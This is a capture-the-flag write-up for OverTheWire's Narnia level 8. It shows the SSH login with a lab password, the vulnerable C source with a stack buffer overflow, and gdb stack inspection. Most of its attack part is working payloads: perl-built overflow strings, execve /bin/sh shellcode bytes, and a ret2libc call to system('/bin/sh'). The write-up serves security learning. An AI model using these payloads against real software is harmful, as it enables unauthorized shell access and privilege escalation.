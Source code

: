 # Level 8 → Level 9

## Solution
```
ssh narnia8@narnia.labs.overthewire.org -p 2226
```
```
1aBcDgPttG
```
```
cd /narnia ; ls -al
```
```
./narnia8
```

![](0.png)

![](1.png)


Let's look at the code:

```
cat narnia8.c
```

The printed file is shown below:

```c
/*
    This program is free software; you can redistribute it and/or modify
    it under the terms of the GNU General Public License as published by
    the Free Software Foundation; either version 2 of the License, or
    (at your option) any later version.

    This program is distributed in the hope that it will be useful,
    but WITHOUT ANY WARRANTY; without even the implied warranty of
    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    GNU General Public License for more details.

    You should have received a copy of the GNU General Public License
    along with this program; if not, write to the Free Software
    Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
// gcc's variable reordering fucked things up
// to keep the level in its old style i am
// making "i" global until i find a fix
// -morla
int i;

void func(char *b){
        char *blah=b;
        char bok[20];
        //int i=0;

        memset(bok, '\0', sizeof(bok));
        for(i=0; blah[i] != '\0'; i++)
                bok[i]=blah[i];

        printf("%s\n",bok);
}

int main(int argc, char **argv){

        if(argc > 1)
                func(argv[1]);
        else
        printf("%s argument\n", argv[0]);

        return 0;
}
```

Well, I tried a few things in this challenge via gdb. These are the things that worked:
* Entering the `argv[2]` parameter as **shellcode** and overriding the return address from `func()` to `main()` which will return to **shellcode**.

* Overriding the return address from `func()` to `main()` to be the `system()` function, and give it the string `"/bin/sh"` as a parameter.
    * The string can be entered as `argv[2]`
    * Or in the first characters of `argv[1]`

The second way is more elegant (in particular inserting the string into `system()` in `argv[1]`) and therefore I will explain it:



Let's look at the stack just after memset:
```
gdb ./narnia8
```
```
disas func
```

![](2.png)

```
b *0x080491a2
```
```
r $(perl -e 'print "A"x19')
```
```
x/40wx $sp
```

![](3.png)

* Yellow - `bok`
* Red - `blah`, contain the address of `argv[0]`
* Blue - `$bp` register
* Green - Return falue from the `func` to the `main`.



```
gdb --args ./narnia8 $(perl -e 'print "A"x20 . "\xe3\xd6\xff\xff" . "B"x4 . "\x04\xd7\xff\xff"') $(perl -e 'print "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"')
```
```
r $(perl -e 'print "A"x20 . "\xe3\xd6\xff\xff" . "B"x4 . "\x04\xd7\xff\xff"') $(perl -e 'print "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"')
```

```
r $(perl -e 'print "A"x20 . "\xf5\xd6\xff\xff" . "B"x4 . "\x70\x81\xc4\xf7" . "C"x4 ."\x1e\xd7\xff\xff"') /bin/sh
```

```
r $(perl -e 'print "/bin/sh;" . "A"x12 . "\xfd\xd6\xff\xff" . "B"x4 . "\x70\x81\xc4\xf7" . "C"x4 ."\xfd\xd6\xff\xff"')
```

## Password for the next level:
```

```
